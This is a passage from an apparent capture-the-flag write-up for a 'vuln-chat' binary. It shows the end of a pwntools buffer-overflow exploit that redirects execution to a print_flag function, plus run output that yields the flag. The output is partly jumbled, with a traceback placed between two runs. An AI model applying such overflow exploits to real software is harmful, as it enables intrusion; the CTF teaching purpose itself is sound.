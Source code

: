 ```
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()
```

When we run it:

```
$   python3 exploit.py
[+] Starting local process './vuln-chat': pid 9895
b'----------- Welcome to vuln-chat -------------\nEnter your username: '
b"Welcome 00000000000000000000%s!\nConnecting to 'djinn'\n--- 'djinn' has joined your chat ---\ndjinn: I have the information. But how do I know I can trust you?"
Traceback (most recent call last):
  File "exploit.py", line 22, in <module>
    payload1 += b"1"*0x31 # Filler space to return address
[+] Starting local process './vuln-chat': pid 9906
b'----------- Welcome to vuln-chat -------------\nEnter your username: '
b"Welcome 00000000000000000000%s!\nConnecting to 'djinn'\n--- 'djinn' has joined your chat ---\ndjinn: I have the information. But how do I know I can trust you?"
[*] Switching to interactive mode

00000000000000000000%s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
Use it wisely
[*] Got EOF while reading in interactive
$  
```

Just like that we got the flag!
